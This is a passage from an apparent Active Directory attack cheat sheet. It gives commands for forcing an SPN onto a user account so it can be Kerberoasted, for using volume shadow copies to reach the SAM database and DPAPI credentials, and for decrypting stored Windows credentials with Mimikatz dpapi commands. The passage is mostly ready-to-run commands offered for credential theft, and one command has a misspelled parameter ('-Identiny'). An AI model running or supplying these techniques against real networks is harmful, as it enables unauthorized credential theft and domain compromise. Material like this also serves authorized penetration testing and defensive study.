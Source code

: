 #### Using PowerShell AD Module:

```text
#Check if current user has already an SPN setted
Get-ADUser -Identity $UserName -Properties ServicePrincipalName | select ServicePrincipalName
  
#Force set the SPN on the account:
Set-ADUser -Identiny $UserName -ServicePrincipalNames @{Add='ops/whatever1'}
```

Finally use any tool from before to grab the hash and Kerberoast it!

### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

```text
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
#List shadow copies using diskshadow
diskshadow list shadows all
  
#Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1. You can dump the backed-up SAM database and harvest credentials.
2. Look for DPAPI stored creds and decrypt them.
3. Access backed-up sensitive files.

### List and Decrypt Stored Credentials using Mimikatz

Usually encrypted credentials are stored in:

* `%appdata%\Microsoft\Credentials`
* `%localappdata%\Microsoft\Credentials`

```text
#By using the cred function of mimikatz we can enumerate the cred object and get information about it:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\$CredHash"

#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\$UserSID\$MasterKeyGUID"

#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\$UserSID\$MasterKeyGUID" /rpc

#We now have the masterkey in our local cache:
dpapi::cache

#Finally we can decrypt the credential using the cached masterkey:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\$CredHash"
```

